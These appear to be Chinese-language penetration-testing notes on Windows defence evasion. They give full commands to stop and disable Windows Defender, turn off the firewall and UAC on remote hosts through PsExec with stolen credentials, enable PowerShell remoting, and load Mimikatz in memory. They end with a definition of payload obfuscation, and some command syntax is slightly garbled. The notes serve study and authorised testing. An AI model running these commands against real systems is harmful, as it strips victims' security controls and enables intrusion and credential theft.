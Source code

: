 - **Windows Defender 停用方法**（Disabling Windows Defender）：
  - 停止服務指令：`Stop-Service -Name "WinDefend" -Force`
  - 防止重啟後自動開啟：`Set-Service -Name "WinDefend" -StartupType Disabled`

- **修改登錄檔禁用即時保護**（Registry Modification）：
  - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableRealtimeMonitoring" -Value 1`

## 使用 PsExec 結合 PowerShell 在遠端禁用安全控制

- **PsExec 遠端執行 PowerShell**（Remote PowerShell Execution）：
  - 基本語法：`psexec \$$target_ip] -u [username] -p [password] powershell.exe -ExecutionPolicy Bypass -File [path_to_script]`
  - 此指令會使用提供的憑證連接遠端機器，繞過 PowerShell 執行政策限制

- **遠端禁用防火牆**（Disabling Firewall Remotely）：
  - PowerShell 指令：`Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`
  - 此指令會在遠端機器上禁用所有網路設定檔的防火牆

- **遠端禁用 UAC**（Disabling UAC Remotely）：
  - `psexec \$$Target_ip] -u [username] -p [password] reg.exe add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 0 /f`
  - 此指令修改遠端機器的登錄檔，禁用使用者帳戶控制（UAC）

## 遠端管理與安全性

- **PowerShell Remoting**（PowerShell 遠端處理）：
  - 在大多數 Windows 機器上預設是禁用的
  - 攻擊者可使用 `Enable-PSRemoting -Force` 開啟此功能
  - 常見方法是使用 WMIC 遠端執行 PowerShell 命令

- **WinRM**（Windows 遠端管理）：
  - 是一種允許使用者與遠端系統互動的 Windows 服務和協定
  - 可用於執行可執行文件、修改登錄檔、修改服務等

## 防禦繞過技術

- **防火牆禁用**（Firewall Disabling）：
  - Windows 系統可利用 `netsh` 命令行工具修改防火牆配置
  - 攻擊者可能插入特定規則，允許與攻擊者控制的域名或 IP 地址之間的流量

## 滲透測試應用

- **PowerShell 利用**（PowerShell Exploitation）：PowerShell 腳本如 `Invoke-Mimikatz` 可直接在記憶體中載入並執行
  - 可用於遠端執行命令或腳本塊，前提是擁有目標機器憑證且 WinRM 已啟用

- **滲透測試工具**（Penetration Testing Tools）：[rapid7.com](https://www.rapid7.com/db/modules/exploit/windows/local/powershell_remoting/) 提供了使用 PowerShell Remoting (TCP 47001) 在目標機器上注入有效負載的模組

# Payload Obfuscation 有效負載混淆

- **Payload Obfuscation**（有效負載混淆）：指將惡意有效負載偽裝成合法有效負載，以避免被安全工具偵測的技術
  - 主要目標是透過改變外觀但不改變功能性來使有效負載更難被識別
  - 對於攻擊者確保有效負載能成功傳遞和執行至目標系統至關重要
  - 常見混淆方法包括編碼、加密、壓縮和程式碼操作
